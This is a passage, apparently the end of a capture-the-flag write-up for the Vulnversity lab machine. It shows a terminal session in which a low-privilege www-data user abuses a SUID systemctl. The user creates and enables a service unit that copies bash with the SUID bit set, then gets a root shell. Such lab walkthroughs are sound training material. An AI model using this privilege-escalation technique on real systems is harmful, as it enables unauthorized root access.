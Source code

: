 ```terminal
www-data@vulnuniversity:/home/bill$ TF=$(mktemp).service
www-data@vulnuniversity:/home/bill$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "cp /bin/bash /tmp/bash; chmod +s /tmp/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/home/bill$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.wxqqFW7qE1.service to /tmp/tmp.wxqqFW7qE1.service.
www-data@vulnuniversity:/home/bill$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.wxqqFW7qE1.service to /tmp/tmp.wxqqFW7qE1.service.
www-data@vulnuniversity:/home/bill$ ls -l /tmp
total 1028
-rwsr-sr-x 1 root     root     1037528 Jan  5 04:57 bash
drwx------ 3 root     root        4096 Jan  5 04:29 systemd-private-8ac40940bfe640f0801c67ff38799d9a-systemd-timesyncd.service-2tCa9l
-rw------- 1 www-data www-data       0 Jan  5 04:57 tmp.R8OuJkkl6C
-rw-rw-rw- 1 www-data www-data     126 Jan  5 04:57 tmp.R8OuJkkl6C.service
-rw------- 1 www-data www-data       0 Jan  5 04:57 tmp.wxqqFW7qE1
-rw-rw-rw- 1 www-data www-data     126 Jan  5 04:57 tmp.wxqqFW7qE1.service
www-data@vulnuniversity:/home/bill$ /tmp/bash -p
bash-4.3# whoami
root
bash-4.3#
```

And just like that, we have rooted Vulnversity machine, hope you have enjoyed and see you in the next hack.
